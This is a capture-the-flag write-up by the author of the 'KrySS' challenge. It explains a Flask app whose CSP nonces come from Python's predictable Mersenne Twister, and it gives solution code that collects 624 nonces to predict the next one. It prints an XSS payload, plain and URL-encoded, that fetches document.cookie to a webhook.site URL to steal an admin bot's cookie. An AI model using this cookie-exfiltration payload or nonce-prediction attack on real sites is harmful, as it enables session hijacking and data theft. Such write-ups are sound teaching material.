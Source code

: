 ```yaml
---
layout: post
title: KrySS writeup
tags: crypto web
math: true
image:
  path: /assets/kryss_images/preview.jpg
  alt: image alternative text
categories: crypto web
---
```


# Kryss

$$x - 2 = 0$$

so this was my contribution to the DEFENSYS 2024 CTF, and i created a web+crypto chall named KrySS and its an XSS chall but with an insecure CSP rule

### description:
	they told me XSS is very dangerous so i made a very secure website that will make XSS useless

## what you will learn:

* the nonce csp rule
* the Mersenne Twister PRNG algorithm 


## the solution
![Alt text](/assets/kryss_images/image1.png "Title")

in the / route we got this page and a button that should give us a cookie, and when click on it we got the following  :
![Alt text](/assets/kryss_images/image2.png?raw=true "Title")

and its a unique userId (we will see later what this is used for)

![Alt text](/assets/kryss_images/image3.png?raw=true "Title")

and by looking at the cookies in devtools we see that we successfully got one, but what can we do with it, lets read the code and see

## Code analysis

#### The `/getcookie` route:
```python
Users = {}

@app.route('/getcookie', methods=['POST', 'GET'])
def setcookie():
	# this is just to generate a random userId
	user = str(uuid.uuid4())
	session["userId"] = user
	R = random.Random()
	Users[user] = R
	resp = make_response(f"your cookie has been set use it now to continue the challenge and your unique id is : {user}")
	return resp
```
in this endpoint we generate a unique userId and a `Random` object from the `Random` class in `random` module then map that `userId` with the `Random` object in the `Users` dictionary and we return the uniqe `userId` in response

### The `/hello` route
```python
@app.route("/hello")
def hello_world():
	try:
		user = session["userId"]
	except:
		user = request.args.get("userId", '')
	msg = request.args.get('msg', '')
	if user is None:
		return "You did not set any cookie go back to main page and set one"
	elif user not in Users:
		return "the userId you entered is no set go to /getcookie to take your cookie and set a new userId"
	else:
		R = Users[user]
	nonce = hex(R.getrandbits(32))[2:]
	resp = make_response(f"<p>Hello, {msg}</p>")
	resp.headers['Content-Security-Policy'] = f"script-src 'nonce-{nonce}';"
	return resp
```
at the beginning of this function we grab the userId either from cookies in the session object (the cookie we got in the `/getcookie` route)  or just enter it in the requests arguments.
but that `userId` should be already initialized (wich means it should be already in the Users dict) so a valid `userId` should be the one returned from `/getcookie`

and here comes the most important part of the chall:
```python
nonce = hex(R.getrandbits(32))[2:]
resp = make_response(f"<p>Hello, {msg}</p>")
resp.headers['Content-Security-Policy'] = f"script-src 'nonce-{nonce}';"
```
the server generate a random 32 bits number and convert it to hex in the nonce variable, also see that the `R` variable is the object we got from the `Users`  dict with the `userId` as key
we see and obvious XSS vulnerability
BUUUT we have a problem here we cant just have XSS because we have the `'Content-Security-Policy'` header wich will set some rules that will stop us from having an easy XSS

## Escape the Matrix, i mean the CSP 😅
### but what is CSP ?
csp (Content security policy) is a security mechanism that protect against XSS by putting some rules that will strict the uses of javascript  
```
Content Security Policy: is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)) and data injection attacks. These attacks are used for everything from data theft, to site defacement, to malware distribution.
```
this is the definition in : https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP

and here is a good resource to better understand this concept: https://portswigger.net/web-security/cross-site-scripting/content-security-policy

### The `script-src 'nonce-{nonce}';` rule

what this rule does is that it tells the browser to only execute `<script>` tags that have the  `nonce`  attribute in it equal to the one generated by the server 
* Example:
if `nonce = afe4a1b2`
then the csp rule will be : `script-src 'nonce-afe4a1b2';` and the browser will only execute script tags that have `nonce` attribute equal to `afe4a1b2`:
```html
<script nonce="afe4a1b2">alert()</script>
```
so the goal of the challenge is to predict the next nonce random value

### Predicting the nonce

the way how the nonce is generated is by mapping each user to a `Random` object so each user will have a unique random sequence but how can we predict each user's sequence ? if the `Random` use a predictable PRNG we can predict the n-th `nonce` by getting all n-1 `nonce`s, and fortunately the `Random` object uses a predictable PRNG which is : `Mersenne Twister`

resource if you wanna understand the Mersenne Twister PRNG deeper: 
* (https://cryptopals.com/sets/3/challenges/23)
* (https://cryptopals.com/sets/3/challenges/22)

but we can use a tool for that:
* (https://github.com/tna0y/Python-random-module-cracker): and it requires 624 random value to predict the next one so we will have to collect 624 `nonce`

### Where is the flag ?
by looking at the bot.py source code of the bot admin we will notice that this is a headless chrome browser that will visit a url, and it puts the flag in cookies but those cookies will be accessible only when using the challenge's domain

## Final solution

* create a webhook that we will use to leak us the flag : using this site https://webhook.site/, copy the url of the webhook
* create a user and take its userID:
	```python
	r = S.get(url+"/getcookie")
	userid = r.text.strip()[-36:]
	```
* take all the 624 nonce by requesting the `/hello` endpoint that will return the nonces in header, and predict the 625-th nonce using randcrack
```python
	rc = RandCrack()
	for _ in range(624):
		r = S.get(url+"/hello?msg=a")
		csp_header = r.headers["Content-Security-Policy"]
		print(csp_header)
		rc.submit(int(csp_header[18:-2], 16))
	nonce = hex(rc.predict_getrandbits(32))[2:]
	print(f"predicted value is : {nonce}")
```
* use the nonce we predicted in the `nonce` attribute of the `<script>` tag to execute javascript, and make a fetch (or XHR ) request to our webhook  to leak the flag (that will be in the bot's cookies)

```html
<script nonce="XXXXXX">fetch("https://webhook.site/zzzz...yyyy/flag?flag="+document.cookie,{{"mode":"no-cors"}})</script>
```
url encode this XSS payload using any online urlencoder then put it in the `msg` parameter and put the userId that we got in the `userId`  parameter (this step is so important)
* final payload should look something like this: `http://127.0.0.1:8080/report?msg=%3Cscript%20nonce%3D%22XXXXXX%22%3Efetch%28%22https%3A%2F%2Fwebhook%2Esite%2Fzzzz%2E%2E%2Eyyyy%2Fflag%3Fflag%3D%22%2Bdocument%2Ecookie%2C%7B%7B%22mode%22%3A%22no%2Dcors%22%7D%7D%29%3C%2Fscript%3E&userId=52b73ef5%2D7f86%2D4892%2Dbd39%2D120ed0269c51`
* full payload generator will be in the [exploit.py](https://github.com/0lston/defensys_ctf/blob/main/web/KrySS/solution/exploit.py)
* submit that url to the admin bot
* and then get the flag from the webhook

![Alt text](/assets/kryss_images/image4.png?raw=true "Title")

